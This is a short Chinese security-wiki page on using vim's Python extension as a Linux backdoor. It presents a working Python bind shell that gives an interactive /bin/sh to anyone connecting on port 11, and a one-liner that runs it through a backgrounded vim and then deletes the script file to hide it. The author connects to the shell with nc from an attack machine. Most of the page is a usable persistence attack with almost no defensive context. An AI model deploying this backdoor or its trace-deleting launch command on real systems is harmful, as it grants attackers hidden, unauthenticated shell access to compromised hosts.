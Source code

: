# vim python 扩展后门

适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统。可以通过vim的pyfile来执行python脚本。这里我复现使用了docker centos 6.8，yum默认安装的vim。下面的pdf是发现者对外公开的思路：

> https://github.com/ianxtianxt/WOTD

这里我们使用一个python开启本地监听11端口的脚本。 POC:

```bash
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)

```

```bash
$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py

```

执行以后：

![](images/security_wiki/15905493110112.png)

![](images/security_wiki/15905493149069.png)


我在攻击机nc连接过去就可以了。

